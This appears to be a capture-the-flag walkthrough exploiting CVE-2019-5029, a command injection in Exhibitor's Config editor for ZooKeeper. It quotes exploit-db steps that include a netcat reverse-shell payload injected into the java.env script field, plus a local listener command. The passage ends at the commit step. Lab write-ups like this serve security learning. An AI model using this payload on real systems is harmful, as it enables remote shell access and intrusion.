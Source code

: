 From nmap we know the version of Zookeeper (`3.4.6-1569965 (Built on 02/20/2014)`)

We find an exploit online for CVE-2019-5029.

https://www.exploit-db.com/exploits/48654

> An exploitable command injection vulnerability exists in the Config editor of the Exhibitor Web UI versions 1.0.9 to 1.7.1. Arbitrary shell commands surrounded by backticks or $() can be inserted into the editor and will be executed by the Exhibitor process when it launches ZooKeeper. An attacker can execute any command as the user running the Exhibitor process.

We'll get back to that. For now we look at the webserver on the browser.

Surprise: the root path redirects us the the exhibitor UI.

![](./assets/zookeper-exhibitor-ui.png)

We read the docs for the exploit and attempt it:

> The steps to exploit it from a web browser:
>
>    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON
>
>    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:
>
>    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
> 
>    Click Commit > All At Once > OK
> 
>    The command may take up to a minute to execute.

We set up our local listener with `nc -lvnp 4444`, write our shell into the `java.env script` field and press commit...
